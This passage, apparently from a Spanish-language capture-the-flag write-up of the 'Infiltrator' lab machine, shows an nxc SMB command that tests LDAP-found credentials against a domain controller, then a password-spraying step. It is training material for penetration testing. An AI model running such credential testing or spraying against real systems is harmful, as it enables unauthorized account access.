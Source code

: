 <figure><img src="../../.gitbook/assets/3778_vmware_gF6h8Noeyf.png" alt=""><figcaption></figcaption></figure>

Probaremos de validar si esas credenciales encontradas en el LDAP son válidas para el usuario. Verificamos que no podemos autenticarnos con estas credenciales, alomejor nos pueden servir para más adelante...

```bash
❯ nxc smb 10.10.11.31 -u 'k.turner' -p 'MessengerApp@Pass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE 
```

## NTLM is disabled? Testing Kerberos authentication

Al realizar un _**Password Spraying**_ de una de las credenciales que disponemos, verificamos que en dos cuentas nos aparece el mensaje de `STATUS_ACCOUNT_RESTRICTION`, lo cual nos llama bastante la atención.
